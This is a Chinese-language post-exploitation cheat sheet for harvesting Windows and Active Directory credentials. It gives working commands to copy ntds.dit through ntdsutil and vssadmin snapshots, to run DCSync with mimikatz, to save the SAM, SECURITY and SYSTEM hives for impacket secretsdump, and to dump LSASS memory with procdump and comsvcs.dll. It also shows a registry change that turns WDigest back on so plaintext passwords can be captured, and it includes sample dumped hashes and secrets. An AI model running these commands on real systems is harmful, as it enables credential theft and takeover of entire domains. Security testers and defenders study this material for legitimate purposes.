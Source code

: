 <a name="pWToY"></a>
# NTDS.dit
ActiveDirtory的数据库,物理路径位于域控下的`C:\Windows\NTDS\ntds.dit`
<a name="OqKga"></a>
## ntdsutil.exe
创建快照<br />`ntdsutil snapshot "active instance ntds" create quit quit`<br />得到一个GUID<br />加载快照<br />`ntdsutil snapshot "mount {GUID}" quit quit`<br />复制ntds.dit文件<br />`copy C:\$SNAP_$time_VOLUMEC$\windows\ntds\ntds.dit c:\temp\ntds.dit`<br />卸载并删除快照<br />`ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit`
<a name="bdlwx"></a>
## IFM
<a name="kmS7e"></a>
## vssadmin
创建拷贝<br />`vssadmin create shadow /for=c:`<br />会得到一个Copy Volume Name<br />复制卷影<br />`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5(Copy Volumn Name)\windows\NTDS\ntds.dit c:\ntds.dit`<br />删除快照<br />`vssadmin delete shadows /for=c: /quiet`
<a name="xc0ZG"></a>
## Dsync Attack
原理即向DC发送GetNCChange请求,而GetNCChange请求主要用于不同域控之间更新域中的数据.而发起用户需要有三种权限

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

而Administrator和Domain Controller组默认拥有该权限<br />`mimikatz “lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator”`获取Administrator用户数据.
<a name="wxQQS"></a>
# LSA secrets


<a name="Ub7eW"></a>
## 转存注册表
`reg save HKLM\SYSTEM system.bin`<br />`reg save HKLM\SECURITY security.bin`<br />`reg save HKLM\SAM sam.bin`
<a name="t2Ffd"></a>
### SECURITY.hive
要求system权限,存储在SECURITY.hive文件中,该文件由BOOTKey/SysKey(该Key存储在SYSTEM.hive中)加密<br />`command:reg query HKLM\SECURITY\Policy\Secrets`<br />在LSA secret中存储了以下信息:

- 域计算机账户:该账户密码默认30天更新一次,该用户用来本地SYSTEM用户和域进行交互,该账户没有administive权限,但该账户可以用来创建银票据或者用以RBCD攻击来作为Administartor登录该机器.
- 服务账户:该账户用来运行一些服务,但只存储了密码和服务名,并没有存储对应的用户名.
- 自动登录密码:如果启用了自动登录功能,则在LSA中存储了自动登录的密码,还可以将该密码存储在HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon 注册表项下的注册表项中DefaulUserName.域和用户名始终分别存储在DefaultDomainName和DefaultUserName中.
- DPAPI密钥:该密钥可用于用户加密自己的敏感数据.
- 最后一个域用户登录该机器的凭据(DCC),该凭据使用的是MSCACHEV2/MSCASH哈希,不能用于Hash传递
<a name="jk7it"></a>
### SAM.hive
该文件保存了本地用户的NT哈希.
<a name="PtZBj"></a>
### SYSTEM.hive
保存了BOOTKey/SysKey.<br />最后调用impacket:<br />`secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL`<br />

```shell
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash) //本地账户NT哈希
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)//域缓存用户hash
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC //计算机账户
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
[*] DefaultPassword //自动登录密码
(Unknown User):user
[*] DPAPI_SYSTEM  //DPAPI密钥
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
 0000   0B BC 2E DB A1 A7 E2 42  56 6D B8 4B 5A 37 79 A4   .......BVm.KZ7y.
 0010   53 51 75 6D 64 7F 9A BF  DC BF C2 83 F4 64 02 A6   SQumd........d..
 0020   5E E8 53 AB E5 4B 35 A4  5B 19 7E 97 E0 CA 32 6C   ^.S..K5.[.~...2l
 0030   77 68 E8 F1 C0 54 AD 7B  03 F7 BE 59 2E 59 C3 93   wh...T.{...Y.Y..
NL$KM:0bbc2edba1a7e242566db84b5a3779a45351756d647f9abfdcbfc283f46402a65ee853abe54b35a45b197e97e0ca326c7768e8f1c054ad7b03f7be592e59c393
[*] _SC_mysql //服务账户的密码,只有服务名无对应的用户名,但可以根据服务名手动查询对应的用户名,Exp:Get-WmiObject win32_service -Filter "name='mysql'" | select -ExpandProperty startname
(Unknown User):Solo1234!
[*] Cleaning up...
```
<a name="Kumex"></a>
## CreateDump.exe
.net5中的工具.
<a name="ZGW6K"></a>
## Procdump
`procdump.exe -accepteula -ma lsass.exe hash.dump`

1. 最新v10.1版本在win2012、win2016上不能使用，在win10、win2019上面可以成功使用。而8.0全部系统都没有问题。
<a name="v0L02"></a>
## comsvcs.dll
[comsvcs.dll](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)<br />`rundll32 C:\windows\system32\comsvcs.dll MiniDump "[LSASS_PID] dump.bin full"`
<a name="dSOBc"></a>
## werfault.exe
[链接](https://www.cnblogs.com/zUotTe0/p/14553082.html)<br />[链接](https://raw.githubusercontent.com/BL0odz/POSTS/main/LsassDump_with_RtlReportSilentProcessExit/main.cpp)​
<a name="dm58g"></a>
## SQLDumper.exe
Microsoft SQL中的工具.
<a name="NzTKK"></a>
## Mimakatz.exe
<a name="nxf5t"></a>
#### Some Commands:

- sekurlsa::logonpasswords: Extracts the NT hashes and passwords.
- sekurlsa::ekeys: Gets the Kerberos keys.
- sekurlsa::tickets: Retrieves the Kerberos tickets stored in the machine.
- 是否可抓取明文密码

补丁:KB2871997,关闭了Wdigest功能,win2012及以上也默认关闭<br />开关Wdigest功能:<br />`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1(0) /f`<br />手动开启后,下次用户登录后即可抓取到明文密码
<a name="ByjJi"></a>
## Impacket
<a name="WeLMB"></a>
## Credential Guard
[参考](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-how-it-works)
